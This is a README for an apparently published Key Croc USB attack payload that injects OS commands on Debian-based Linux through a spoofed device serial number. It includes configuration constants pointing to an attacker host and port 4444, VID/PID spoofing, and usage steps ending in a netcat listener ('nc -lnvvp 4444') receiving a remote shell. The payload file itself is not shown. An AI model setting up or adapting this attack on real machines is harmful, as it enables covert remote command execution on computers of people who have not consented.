

# "Linux" Blind OS Command Injection using Serial Number

- Title:            "Linux" Blind OS Command Injection using Serial Number
- Author:           TW-D
- Version:          1.0
- Target:           Debian-Based Linux Distributions
- Category:         Remote Access
- Attackmode:       HID

## Description

Allows a remote attacker to execute commands on a Linux system, 
using the serial number as a vector to pass the commands to be executed, 
without receiving feedback on the results of the commands.



__Note :__ *According to my tests, for the "Serial Number," the maximum size is 126 on Ubuntu 22.04.4 LTS.*

## Prerequisites

```bash
root@croc:~# apt-get install bc
```

## Configuration

From the file "lin_blind-os-command-injection_serial-number.txt" change the value of the following constants :

```

######## INITIALIZATION ########

readonly REMOTE_HOST="192.168.0.100"
readonly REMOTE_PORT="4444"

##
# 1D6B:0002 === Linux Foundation 2.0 root hub
# 1D6B:0003 === Linux Foundation 3.0 root hub
#
# NOTE : "Linux Foundation X.0 root hub" refers to a USB root hub 
# managed by the Linux kernel. This hub handles the connections between 
# the operating system and the physical USB ports on your machine.
##
readonly HID_VID="1D6B"
readonly HID_PID="0002"

######## SETUP ########

LED SETUP

export DUCKY_LANG="us"

```

## Trigger

>
> Not applicable because of matchless payload
>

## Usage

1. Edit "config.txt" on the Key Croc in "Arming Mode" to specify the WiFi network name and the associated password.

2. Then place the file "lin_blind-os-command-injection_serial-number.txt" in the "payloads/" directory.

3. Eject the Key Croc safely and then start, for example, "netcat" listening on the port you specified in the REMOTE_PORT constant.

```bash
hacker@hacker-computer:~$ nc -lnvvp 4444
[...]
shell> echo "$(hostname)" > /tmp/output.log
[CTRL + c]
```
